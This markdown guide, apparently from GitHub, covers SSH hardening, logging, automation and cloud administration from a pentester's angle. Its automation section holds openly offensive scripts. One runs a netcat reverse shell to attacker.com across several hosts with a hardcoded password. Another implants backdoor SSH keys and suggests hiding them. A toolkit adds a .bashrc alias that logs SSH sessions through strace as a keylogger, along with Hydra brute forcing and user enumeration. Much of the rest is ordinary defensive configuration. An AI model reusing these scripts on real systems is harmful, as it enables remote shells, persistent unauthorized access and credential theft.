



# [̲̅S][̲̅S][̲̅H] Mastery: Advanced Techniques for Security

```ascii
 ____  ____  _   _   __  __           _            
/ ___|| ___|| | | | |  \/  | __ _ ___| |_ ___ _ __ 
\___ \|___ \| |_| | | |\/| |/ _` / __| __/ _ \ '__|
 ___) |___) |  _  | | |  | | (_| \__ \ ||  __/ |   
|____/|____/|_| |_| |_|  |_|\__,_|___/\__\___|_|   
```

## Table of Contents
10. [🛡️ Hardening SSH Security](#-hardening-ssh-security)
11. [🔍 SSH Auditing and Logging](#-ssh-auditing-and-logging)
12. [🔄 SSH Automation and Scripting](#-ssh-automation-and-scripting)
13. [🌐 SSH in Cloud Environments](#-ssh-in-cloud-environments)
14. [🧪 SSH Exploitation](#-ssh-exploitation)

---

# 🛡️ Hardening SSH Security: A Pentester's Guide

## Key Security Measures

| Measure | Description | Pentest Insight |
|---------|-------------|-----------------|
| 🔐 Fortify Encryption | Configure robust ciphers, MACs, and key exchange algorithms | Check for downgrade attacks or misconfigured servers |
| 🔄 Automate Key Rotation | Regularly update SSH keys | Verify old keys are properly invalidated |
| 🔒 Implement 2FA | Integrate two-factor authentication | Test various 2FA bypass scenarios |

## Detailed Steps

### 1. Fortify Encryption

```bash
# Check current SSH configuration
$ ssh -Q cipher
$ ssh -Q mac
$ ssh -Q kex

# Edit /etc/ssh/sshd_config
Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com
KexAlgorithms curve25519-sha256@libssh.org,diffie-hellman-group16-sha512

# Restart and verify
$ sudo systemctl restart sshd
$ ssh -vv user@target_host | grep "kex: server->client"
```

### 2. Automate Key Rotation

```bash
#!/bin/bash
NEW_KEY="id_ed25519_$(date +%Y%m%d)"
ssh-keygen -t ed25519 -f ~/.ssh/$NEW_KEY -C "rotated_key_$(date +%Y-%m-%d)"
ssh-copy-id -i ~/.ssh/$NEW_KEY.pub user@remote_host
sed -i "s/IdentityFile ~\/.ssh\/id_ed25519/IdentityFile ~\/.ssh\/$NEW_KEY/" ~/.ssh/config
ssh user@remote_host "sed -i '/old_key/d' ~/.ssh/authorized_keys"

# Pentest: Verify
ssh -i ~/.ssh/id_ed25519 user@remote_host
ssh -i ~/.ssh/$NEW_KEY user@remote_host
```

### 3. Implement 2FA

```bash
$ sudo apt-get install libpam-google-authenticator
$ echo "auth required pam_google_authenticator.so" | sudo tee -a /etc/pam.d/sshd
$ echo "ChallengeResponseAuthentication yes" | sudo tee -a /etc/ssh/sshd_config
$ sudo systemctl restart sshd
$ google-authenticator

# Pentest: Test 2FA
$ ssh user@target_host
```

## Security Architecture Overview


## Field Report: Financial Sector Pentest

Operation "Vault Breaker" at ████████ Bank:
- Discovered outdated SSH version on legacy systems
- User enumeration via timing attack successful
- Weak key exchange algorithms on 2/50 servers
- 2FA bypass on one system due to misconfigured PAM rules

Result: Unauthorized access to 3 non-critical systems

Remediation:
- Uniform SSH configurations
- Strict key rotation policy with HSM
- Enhanced monitoring
- Staff training

💡 **Pro Tip**: Combine technical controls with robust policies and regular security awareness training.

---

# 🔍 SSH Auditing and Logging

Implement comprehensive surveillance on your SSH channels to detect and respond to potential security threats:

## Key Components

| Component | Description | Implementation |
|-----------|-------------|-----------------|
| Enhanced Reconnaissance | Verbose logging of SSH activities | Modify sshd_config |
| Centralized Intelligence | Collect logs from multiple servers | Configure rsyslog |
| Covert Data Management | Manage log file sizes and retention | Set up log rotation |

## Detailed Implementation

### 1. Enhanced Reconnaissance

```bash
# Edit /etc/ssh/sshd_config
LogLevel VERBOSE
MaxAuthTries 3
PermitRootLogin no

# Restart SSH service
sudo systemctl restart sshd
```

> 🔐 **Security Note**: Limiting MaxAuthTries and disabling root login significantly increases security.

### 2. Centralized Intelligence Gathering

```bash
# On central log server (/etc/rsyslog.conf)
module(load="imtcp")
input(type="imtcp" port="514")

# On each SSH server (/etc/rsyslog.d/10-ssh.conf)
if $programname == 'sshd' then @@central_log_server:514

# Restart rsyslog on all servers
sudo systemctl restart rsyslog
```

> 🌐 **Network Note**: Ensure firewall rules allow traffic on port 514 between servers.

### 3. Covert Data Management

```bash
# In /etc/logrotate.d/ssh
/var/log/ssh.log {
    rotate 7
    daily
    compress
    missingok
    notifempty
    postrotate
        /usr/lib/rsyslog/rsyslog-rotate
    endscript
}
```

> 📊 **Data Management**: Regular log rotation prevents disk space issues and helps maintain system performance.

## 🐍 Clandestine Log Analyzer

<details>
<summary>Click to expand/collapse the Python script</summary>

```python
import re
import sys
from collections import Counter
from datetime import datetime

def analyze_ssh_log(log_file):
    ip_pattern = r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}'
    failed_attempts, successful_logins = Counter(), Counter()
    unusual_times = []

    with open(log_file, 'r') as f:
        for line in f:
            timestamp = datetime.strptime(line.split()[0] + ' ' + line.split()[1], '%Y-%m-%d %H:%M:%S')
            
            if 'Failed password' in line:
                ip = re.search(ip_pattern, line)
                if ip: 
                    failed_attempts[ip.group()] += 1
                    if timestamp.hour >= 22 or timestamp.hour <= 5:
                        unusual_times.append((ip.group(), timestamp))
            elif 'Accepted publickey' in line:
                ip = re.search(ip_pattern, line)
                if ip: successful_logins[ip.group()] += 1

    print("Top 5 IPs with failed password attempts:")
    for ip, count in failed_attempts.most_common(5):
        print(f"{ip}: {count}")

    print("\nTop 5 IPs with successful logins:")
    for ip, count in successful_logins.most_common(5):
        print(f"{ip}: {count}")

    print("\nUnusual login times:")
    for ip, time in unusual_times:
        print(f"{ip}: {time}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python ssh_log_analyzer.py /path/to/ssh.log")
        sys.exit(1)
    analyze_ssh_log(sys.argv[1])
```

</details>

> 🐍 **Python Power**: This script includes detection of login attempts during unusual hours, a common sign of malicious activity.

## 🕸️ Security Architecture Overview



## 📸 SSH Intel Dashboard


**Screenshot Description:**
- Top panel: Line graph of SSH activity over time
- Center: World map with heat spots of SSH connections
- Right side: Top IP addresses with risk scores
- Bottom: Real-time feed of SSH events with threat levels
- Additional features: Time-based analysis, user behavior analytics, automated threat response status

## 🧪 Pentester's Toolkit

<details>
<summary>Click to expand/collapse the Pentester's Toolkit</summary>

```bash
# User enumeration
for user in $(cat users.txt); do ssh $user@192.168.1.100; done

# SSH key fingerprint gathering
ssh-keyscan -t rsa 192.168.1.100

# Check for vulnerable SSH versions
nmap -p 22 --script ssh2-enum-algos 192.168.1.100

# Attempt a timing attack
ssh -vvv -o KexAlgorithms=+diffie-hellman-group1-sha1 user@192.168.1.100

# Use Metasploit for SSH enumeration
msfconsole -q -x "use auxiliary/scanner/ssh/ssh_version; set RHOSTS 192.168.1.100; run; exit"
```

</details>

> ⚠️ **Ethical Hacking Reminder**: Always obtain proper authorization before performing any penetration testing activities.

## 🔏 Hardening Recommendations

1. Implement key-based authentication and disable password authentication
2. Use SSH protocol version 2 only
3. Implement IP whitelisting for SSH access
4. Configure SSH to use a non-standard port
5. Implement fail2ban or similar intrusion prevention systems
6. Regularly update OpenSSH and apply security patches

Remember, security is an ongoing process. Regularly audit, update, and improve your SSH security measures to stay ahead of potential threats.

---

# 🔓 SSH Automation: A Pentester's Guide

Unleash the power of automated SSH operations for both system administration and penetration testing.

## Key Techniques

| Technique | Description | Use Case |
|-----------|-------------|----------|
| Parallel Execution | Execute commands on multiple servers simultaneously | Mass exploitation |
| Key Distribution | Automate SSH key distribution | Backdoor implantation |
| Dynamic Asset Reconnaissance | Discover and inventory SSH-accessible hosts | Network mapping |

## Detailed Implementation

### 1. Parallel Execution Protocol (Mass Exploitation)

<details>
<summary>Click to expand/collapse the script</summary>

```bash
#!/bin/bash
targets=(10.0.0.1 10.0.0.2 10.0.0.3)
exploit_command="nc -e /bin/sh attacker.com 4444"

for target in "${targets[@]}"; do
    sshpass -p 'password123' ssh user@"$target" "$exploit_command" &
done
wait
```

</details>

> 🔥 **Pentester's Note**: This script can be used to execute a reverse shell on multiple compromised systems simultaneously. Always ensure you have proper authorization.

### 2. Key Distribution Algorithm (Backdoor Implantation)

<details>
<summary>Click to expand/collapse the script</summary>

```bash
#!/bin/bash
backdoor_key="$HOME/.ssh/backdoor_id_rsa.pub"
targets_file="compromised_hosts.txt"

while read -r target; do
    sshpass -p 'password123' ssh-copy-id -i "$backdoor_key" user@"$target"
    echo "Backdoor key implanted on $target"
done < "$targets_file"
```

</details>

> 🕵️ **Stealth Tip**: Consider hiding the backdoor key in a less obvious location and using a generic key name.

### 3. Dynamic Asset Reconnaissance (Network Mapping)

<details>
<summary>Click to expand/collapse the script</summary>

```python
#!/usr/bin/env python3
import nmap
import json

def scan_ssh_hosts(network):
    nm = nmap.PortScanner()
    nm.scan(network, arguments='-p 22 --open')
    
    ssh_hosts = []
    for host in nm.all_hosts():
        if nm[host]['tcp'][22]['state'] == 'open':
            ssh_hosts.append(host)
    
    return ssh_hosts

network = "192.168.1.0/24"
inventory = {
    "ssh_targets": scan_ssh_hosts(network),
    "vars": {
        "ansible_user": "user",
        "ansible_ssh_pass": "password123"  # Not recommended for real use!
    }
}

print(json.dumps(inventory, indent=2))
```

</details>

> 🎯 **Target Acquisition**: This script uses Nmap to scan for open SSH ports, creating a potential target list for further exploitation or auditing.

## 🕸️ SSH Automation Attack Vector



## 📸 SSH Penetration Dashboard


**Screenshot Description:**
- Top-left: Network map of discovered SSH servers, color-coded by vulnerability status
- Top-right: Real-time log of exploitation attempts and successes
- Bottom-left: List of harvested credentials and successful login attempts
- Bottom-right: Metrics including number of compromised systems, average time to exploit, and data exfiltration progress
- Center: Command input area for launching automated attacks or running custom scripts

## 🧰 Pentester's Advanced Toolkit

<details>
<summary>Click to expand/collapse the Advanced Toolkit</summary>

1. **SSH Vulnerability Scanner**
   ```bash
   nmap -p 22 --script ssh-auth-methods,ssh-publickey-acceptance,sshv1 192.168.1.0/24
   ```

2. **Brute Force Attack (with Hydra)**
   ```bash
   hydra -l user -P /path/to/wordlist.txt ssh://192.168.1.100
   ```

3. **SSH Keylogger Implant**
   ```bash
   # On compromised system
   echo "alias ssh='strace -o /tmp/.ssh_log -e read,write,connect -s2048 ssh'" >> ~/.bashrc
   ```

4. **SSH Tunnel for Data Exfiltration**
   ```bash
   ssh -L 8080:internal_server:80 user@compromised_host
   ```

5. **Automated SSH Config Auditor**
   ```python
   import paramiko
   
   def audit_ssh_config(hostname, username, password):
       client = paramiko.SSHClient()
       client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
       client.connect(hostname, username=username, password=password)
       
       stdin, stdout, stderr = client.exec_command('cat /etc/ssh/sshd_config')
       config = stdout.read().decode()
       
       vulnerabilities = []
       if 'PermitRootLogin yes' in config:
           vulnerabilities.append('Root login is permitted')
       if 'PasswordAuthentication yes' in config:
           vulnerabilities.append('Password authentication is enabled')
       
       return vulnerabilities
   
   print(audit_ssh_config('192.168.1.100', 'user', 'password123'))
   ```

</details>

> ⚠️ **Ethical Hacking Reminder**: Always obtain proper authorization before performing any penetration testing activities.

## 🛡️ Defensive Countermeasures

1. Implement fail2ban to prevent brute force attacks
2. Use SSH key authentication and disable password authentication
3. Regularly rotate SSH keys and monitor for unauthorized key additions
4. Use a jump host or bastion server for accessing sensitive systems
5. Implement SSH session logging and monitoring
6. Use SSH multiplexing for efficiency and reduced attack surface

Remember, the goal of penetration testing is to improve security. Always provide detailed reports and remediation advice after your authorized testing activities.

---

# 🌐🔒 Comprehensive SSH Cloud Management and Security Guide

This guide covers advanced SSH techniques for cloud environments, useful for system administrators, DevOps engineers, and security professionals.

## 🏗️ Cloud SSH Infrastructure Management

### 1. Temporary Access Management

<details>
<summary>Click to expand/collapse script</summary>

```bash
#!/bin/bash
TARGET_HOST="cloud-server.com"
USERNAME="temp_user"
EXPIRY_TIME="1 day"

ssh admin@$TARGET_HOST "sudo useradd -m -s /bin/bash -e $(date -d "+$EXPIRY_TIME" +%Y-%m-%d) $USERNAME"
ssh-keygen -t ed25519 -f /tmp/$USERNAME -N ""
ssh admin@$TARGET_HOST "sudo mkdir -p /home/$USERNAME/.ssh && sudo cat >> /home/$USERNAME/.ssh/authorized_keys" < /tmp/$USERNAME.pub

echo "Temporary access created. Connect with:"
echo "ssh -i /tmp/$USERNAME $USERNAME@$TARGET_HOST"
```
</details>

**Description:** This script creates a temporary user account with SSH access, useful for granting short-term access to contractors or for temporary administrative tasks.

### 2. Cloud Instance SSH Accessibility Check

<details>
<summary>Click to expand/collapse script</summary>

```python
import boto3, paramiko

def check_ec2_ssh(region):
    ec2 = boto3.resource('ec2', region_name=region)
    ssh_accessible = []

    for instance in ec2.instances.all():
        if instance.public_ip_address:
            try:
                ssh = paramiko.SSHClient()
                ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh.connect(instance.public_ip_address, username='ec2-user', timeout=5)
                ssh_accessible.append(instance.id)
                ssh.close()
            except paramiko.AuthenticationException:
                print(f"Authentication failed: {instance.id}")
            except Exception as e:
                print(f"Error connecting to {instance.id}: {str(e)}")

    return ssh_accessible

accessible_instances = check_ec2_ssh('us-west-2')
print(f"SSH-accessible instances: {accessible_instances}")
```
</details>

**Description:** This script checks which EC2 instances in a specified region are accessible via SSH, helping administrators manage access and identify potential security issues.

## 🕸️ Cloud SSH Workflow



## 🧪 Advanced SSH Techniques

### 1. Container Management via SSH

<details>
<summary>Click to expand/collapse script</summary>

```bash
#!/bin/bash
TARGET_CONTAINER="app-container"
HOST_SYSTEM="docker-host.example.com"

ssh admin@$HOST_SYSTEM "docker exec -it $TARGET_CONTAINER /bin/bash -c 'apt update && apt install -y htop'"
ssh admin@$HOST_SYSTEM "docker exec -it $TARGET_CONTAINER /bin/bash -c 'htop'"

echo "Container resources monitored via SSH."
```
</details>

**Description:** This script demonstrates how to manage and monitor resources in a Docker container using SSH, useful for remote container administration.

### 2. SSH Tunneling for Secure Data Transfer

<details>
<summary>Click to expand/collapse script</summary>

```bash
#!/bin/bash
JUMP_HOST="jumpbox.example.com"
INTERNAL_HOST="internal-server.example.com"
LOCAL_PORT=8080
REMOTE_PORT=80

ssh -L $LOCAL_PORT:$INTERNAL_HOST:$REMOTE_PORT user@$JUMP_HOST
curl http://localhost:$LOCAL_PORT > transferred_data.txt

echo "Data securely transferred through SSH tunnel."
```
</details>

**Description:** This script sets up an SSH tunnel to securely transfer data from an internal server through a jump host, useful for accessing resources in private networks.

### 3. Automated SSH Configuration Auditor

<details>
<summary>Click to expand/collapse script</summary>

```python
import paramiko, socket

def audit_ssh_config(hostname, port=22):
    try:
        client = paramiko.SSHClient()
        client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        client.connect(hostname, port=port, timeout=5)
        
        stdin, stdout, stderr = client.exec_command('cat /etc/ssh/sshd_config')
        config = stdout.read().decode()
        
        findings = []
        if 'PermitRootLogin yes' in config: findings.append('Root login permitted')
        if 'PasswordAuthentication yes' in config: findings.append('Password authentication enabled')
        if 'X11Forwarding yes' in config: findings.append('X11 forwarding enabled')
        
        return findings
    except paramiko.AuthenticationException:
        return ["Authentication failed - check credentials"]
    except socket.timeout:
        return ["Connection timed out"]
    except Exception as e:
        return [f"Error: {str(e)}"]
    finally:
        client.close()

# Example usage
target_hosts = ['server1.example.com', 'server2.example.com', 'server3.example.com']
for host in target_hosts:
    print(f"Configuration findings for {host}:")
    print(audit_ssh_config(host))
```
</details>

**Description:** This script audits SSH configurations on multiple servers, helping administrators ensure consistent and secure settings across their infrastructure.

## 📸 SSH Management Dashboard


**Dashboard Description:**
This SSH management dashboard provides:

1. Server Overview: List of all SSH-enabled servers across regions.
2. Configuration Matrix: Overview of SSH settings on different servers.
3. Access Logs: Real-time feed of SSH login attempts and sessions.
4. Performance Metrics: CPU, memory, and network usage of SSH-connected servers.
5. User Management: Interface for managing SSH user accounts and permissions.
6. Security Alerts: Notifications for potential SSH-related security issues.
7. Compliance Checker: Tool to verify SSH configurations against security policies.

## 🛡️ Best Practices for SSH Security

1. Implement Just-In-Time (JIT) SSH access for sensitive systems
2. Use SSH certificates instead of static keys for authentication
3. Enforce network segmentation and use jump hosts for SSH access
4. Implement comprehensive logging and real-time monitoring for SSH sessions
5. Regularly rotate SSH keys and audit access permissions
6. Use multi-factor authentication for SSH access to critical systems
7. Keep SSH software and protocols up to date
8. Use SSH key management solutions for large-scale deployments

Remember: Regular audits and updates are crucial for maintaining a secure SSH infrastructure.

```ascii
   _____  _____ _    _   __  __           _            
  / ____|/ ____| |  | | |  \/  |         | |           
 | (___ | (___ | |__| | | \  / | __ _ ___| |_ ___ _ __ 
  \___ \ \___ \|  __  | | |\/| |/ _` / __| __/ _ \ '__|
  ____) |____) | |  | | | |  | | (_| \__ \ ||  __/ |   
 |_____/_____/|_|  |_| |_|  |_|\__,_|___/\__\___|_|   
```
